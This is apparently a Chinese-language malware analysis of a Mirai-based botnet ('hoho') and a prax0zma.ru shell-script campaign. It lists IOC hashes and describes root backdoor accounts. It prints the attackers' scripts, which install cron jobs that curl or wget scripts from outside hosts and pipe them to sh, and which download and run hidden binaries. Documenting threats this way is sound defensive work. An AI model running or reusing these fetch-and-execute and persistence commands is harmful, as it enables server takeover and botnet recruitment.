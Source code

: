 *hoho.x86 二进制文件包含文字字符串:*

```
*Botnet Made By greek.Helios*
```

*二进制文件用 UPX 可执行打包器打包，主要匹配 Mirai 未来组合代码。*

```
*IOC

7812fc4e894712845559193bd2b9cc88391b0a6691906124846cbaf73eb67b73 hoho.arm 622dd9dc905a14d881ce07227252f5086ba3b7afca88b913ece0bcfb4444b41b hoho.arm5 b9e0cce5412c1cb64f6e53493c8263f5e0d56e6e217ea4d94e401bf2da6d8c60 hoho.arm6 7050cb141e5eb0a8236639e0d9f2cc9bca63f2c3984b3ea8e30400984d24cfe6 hoho.arm7 4ce21713f20624ea5ba9eec606c53b7d9c38c2d72abf4043f509c81326bbdb1d hoho.m68k 485ecbe80f8f98b032af80cf32bb26d49e1071c75b25f6e306e37856f1446d38 hoho.mips a599bf6697062d3358b848db40399feafd65931834acc9228f97dc27aa7fa4bb hoho.mpsl 456b31214698f894e8f4eb4aa01a34305c713df526fd33db74b58f440e59a863 hoho.ppc e0a56e2ea529991933c38fc8159374c8821fdb57fe5622c2cf8b5ad7798bbc02 hoho.sh4 da53b60354c3565a9954cbaa0e1b6d7146d56890ee10cd0745b5787298db97a7 hoho.spc
9f4f93667e4892ca84a45981caafb4a39eabdc2f6c257f0dc2df04c73f1bf0a4 hoho.x86*
```

# *prax0zma.ru*

*该活动由一组外壳脚本组成，可从受损服务器上删除系统和其他用户帐户，并创建两个具有根用户权限的后门帐户。*

*后门帐户用户名为“VM”和“localhost ”,两者的密码都设置为哈希“$ 1 $ owj j0 fjv $ rmdaylph 3 xpxhxfpbe 8s 1”。*

```
*http://prax0zma[.]ru/8.sh
$ cat 8.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "*/5 * * * * curl -fsSL http://prax0zma[.]ru/8.sh | sh" > /var/spool/cron/root
echo "*/5 * * * * wget -q -O- http://prax0zma[.]ru/8.sh | sh" >> /var/spool/cron/root
#echo "0 * * * * pkill -9 r" >> /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/5 * * * * curl -fsSL http://prax0zma[.]ru/8.sh | /bin/sh" > /var/spool/cron/crontabs/root
echo "*/5 * * * * wget -q -O- http://prax0zma[.]ru/8.sh | /bin/sh" >> /var/spool/cron/crontabs/root
#echo "0 * * * * pkill -9 r" >> /var/spool/cron/crontabs/root

cd /boot ; wget -q http://hehe.suckmyass[.]cf/.o -O .b; chmod +x .b; nohup ./.b  >/dev/null 2>&1
cd /boot ; curl -O http://hehe.suckmyass[.]cf/.o ; chmod +x .o; nohup ./.o  >/dev/null 2>&1
#cd /tmp ; curl -O http://sandbotc2[.]ml/fefe | wget -q http://sandbotc2[.]ml/fefe ; chmod +x fefe; ./fefe ; rm -rf fefe*; >/dev/null 2>&1
echo 128 > /proc/sys/vm/nr_hugepages
sysctl -w vm.nr_hugepages=128
    ulimit -n 65000
    ulimit -u 65000

mkdir -p /tmp/.ha/

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    curl -fsSL http://prax0zma[.]ru/bash -o /tmp/.ha/nsyhs
fi

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    wget -q http://prax0zma[.]ru/bash -O /tmp/.ha/nsyhs
fi

chmod +x /tmp/.ha/nsyhs && /tmp/.ha/nsyhs----
http://hehe.suckmyass[.]cf/.o 
$ cat .o
cd /boot ; wget -q http://r00ts.truthdealmodz[.]pw/.i -O .0; chmod +x .0; nohup ./.0  >/dev/null 2>&1 ; rm -rf .0
```